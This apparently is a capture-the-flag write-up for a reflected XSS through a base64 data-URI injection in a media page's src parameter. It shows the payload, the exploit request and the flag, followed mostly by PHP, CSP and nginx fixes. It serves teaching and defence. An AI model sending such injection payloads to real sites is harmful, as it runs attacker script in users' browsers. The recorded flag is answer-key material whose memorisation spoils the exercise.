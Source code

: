# Reflected XSS via Data URI Injection

## 🎯 Overview
This vulnerability demonstrates a reflected Cross-Site Scripting (XSS) attack through the manipulation of the `src` parameter using a data URI scheme, allowing execution of arbitrary JavaScript code.

## 🔍 Vulnerability Details
- **Endpoint**: `/index.php?page=media&src=nsa`
- **Parameter**: `src`
- **Attack Vector**: Data URI Injection
- **Impact**: JavaScript Code Execution
- **Payload Type**: Base64 Encoded Data URI

## ⚔️ Exploitation Process

### 1. Parameter Analysis
```http
# Initial testing of src parameter
GET /index.php?page=media&src=media.php HTTP/1.1
Result: Failed - Direct file inclusion not allowed
```

### 2. Data URI Payload Creation
```javascript
// Original JavaScript payload
<script>alert(42)</script>

// Base64 encoded payload
Base64: PHNjcmlwdD5hbGVydCg0Mik8L3NjcmlwdD4=
```

### 3. Exploit Execution
```http
GET /index.php?page=media&src=data:text/html;base64,PHNjcmlwdD5hbGVydCg0Mik8L3NjcmlwdD4= HTTP/1.1
Host: x.x.x.x
```

### Attack Result
**Flag**: 928d819fc19405ae09921a2b71227bd9aba106f9d2d37ac412e9e5a750f1506d

## 🛡️ Security Issues Identified
1. No input validation
2. Missing content security policy
3. Unfiltered data URI schemes
4. Reflected user input
5. Insufficient XSS protection

## 🔒 Recommended Security Fixes

### 1. Input Validation
```php
class MediaValidator {
    private $allowedSources = ['nsa.jpg', 'media.mp4'];
    
    public function validateSource($src) {
        if (!in_array($src, $this->allowedSources)) {
            throw new InvalidArgumentException('Invalid media source');
        }
        return $src;
    }
    
    public function sanitizeUrl($url) {
        if (preg_match('/^data:/i', $url)) {
            throw new SecurityException('Data URIs not allowed');
        }
        return filter_var($url, FILTER_SANITIZE_URL);
    }
}
```

### 2. Content Security Policy
```php
class SecurityHeaders {
    public function setCSPHeaders() {
        header("Content-Security-Policy: default-src 'self'; media-src 'self'; object-src 'none';");
    }
    
    public function setSecurityHeaders() {
        header('X-XSS-Protection: 1; mode=block');
        header('X-Content-Type-Options: nosniff');
    }
}
```

### 3. Output Encoding
```php
class OutputSanitizer {
    public function sanitizeOutput($data) {
        return htmlspecialchars($data, ENT_QUOTES, 'UTF-8');
    }
    
    public function sanitizeMediaUrl($url) {
        $url = $this->sanitizeOutput($url);
        return preg_replace('/^data:/i', '', $url);
    }
}
```

### 4. Security Measures Checklist
- [ ] Implement input validation
- [ ] Add content security policy
- [ ] Enable output encoding
- [ ] Block data URI schemes
- [ ] Whitelist allowed sources
- [ ] Add XSS protection headers
- [ ] Implement logging

## 📝 Best Practices

### XSS Prevention
1. Validate all input
2. Encode all output
3. Use Content Security Policy
4. Implement proper headers
5. Use modern framework protections

### Secure Media Loading
```php
class MediaLoader {
    private $mediaPath = '/secure/media/';
    
    public function loadMedia($filename) {
        $safePath = $this->mediaPath . basename($filename);
        if (!file_exists($safePath)) {
            throw new Exception('Media not found');
        }
        return $safePath;
    }
}
```

### Nginx Configuration
```nginx
# Prevent data URI and other malicious content
location /media {
    add_header X-Content-Type-Options "nosniff";
    add_header Content-Security-Policy "default-src 'self'";
    
    # Only allow specific file types
    location ~* \.(jpg|jpeg|png|gif|mp4)$ {
        try_files $uri =404;
    }
    
    # Deny all other requests
    location ~ .* {
        return 403;
    }
}
```

## 📚 Additional Resources
- [OWASP XSS Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html)
- [Content Security Policy Reference](https://content-security-policy.com/)
- [Data URL Security Risks](https://www.mozilla.org/en-US/security/advisories/data-urls/)

## ⚠️ Disclaimer
This documentation is for educational purposes only. Always obtain proper authorization before testing security measures on any system.